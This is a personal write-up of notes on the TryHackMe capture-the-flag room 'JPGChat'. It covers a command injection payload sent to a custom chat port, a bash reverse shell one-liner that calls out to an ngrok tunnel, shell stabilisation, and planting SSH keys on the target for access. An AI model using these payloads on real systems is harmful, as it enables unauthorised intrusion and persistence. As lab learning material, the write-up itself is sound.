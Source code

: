 **JPGChat**

This is not a full wireup for this room, this is just my notes about it because I had multiple problems when tried to get  using revshells etc.

After doing the NMAP on the machine and found `ssh` open and a custom port of `3000` open, I tried to netcat to port `3000`, I've written `[REPORT]` and added my payload `am'; /bin/bash; #` why `/bin/bash` not revshell? that what I was struggling with, I have no idea why but I was not able to do any kind of connection to my tunnel (ngrok)

I've setup my ngrok using `ngrok tcp 5000` and open my nc like this `nc -lnvp 5000` and sent my revshell payload like this `am;bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14411 0>&1;` and nope.. nothing appeard, this was 1 failure out of 20+ failures using many kind of revshell payloads, then I found this [writeup](https://www.aldeid.com/wiki/TryHackMe-JPGChat) which gave me the idea of spawning a local bash using just `/bin/bash` instead of my revshell payload

Then i stabiliezed my bash a little using `python3 -c "import pty; pty.spawn('/bin/bash')"` then added my ssh keys to get a proper shell using ssh as follows:

- Generated my ssh rsa keys using `ssh-keygen -t rsa` saved it on default path and put my passphrase
- Copy the output found in `~/.ssh/id_rsa.pub` and put it on the vuln machine using the following
    - ![c21fa25eb5d2ccd0153e5bc4310a5f2a.png](c21fa25eb5d2ccd0153e5bc4310a5f2a.png)
    - Due to unstable shell we have to use a tricky way to pipeline our input, once I pasted my rsa key git Enter then type `EOF` to stop the file inputing

- Now connect using ssh `ssh -vvv wes@XXXXX` the `-vvv` for verbosity to know what's going on under the hood
- Aaaaand connected ![912473317bff44200af01f781a500ee3.png](912473317bff44200af01f781a500ee3.png)


 Now let's do the **Privilege Escalation**

- Once again we can't connect to my netcat .…
- ![3e362d7500bee8bcb47e5546bcd516cd.png](3e362d7500bee8bcb47e5546bcd516cd.png)
- Sooo, we use do it on the machine's local 
- ![dd2f718c0a906d060793a2f2826eee7f.png](dd2f718c0a906d060793a2f2826eee7f.png "dd2f718c0a906d060793a2f2826eee7f.png")

Still got no idea why this happened, was it from me? from the machine? I have no idea yet.. it's not the first time I create revshells/RCE using this technique but this time no worky no worky :\

You can contact me using my social media/discord accounts on my Github account if you have any idea why this happened :)

Discord: `AyhamAlali#0001`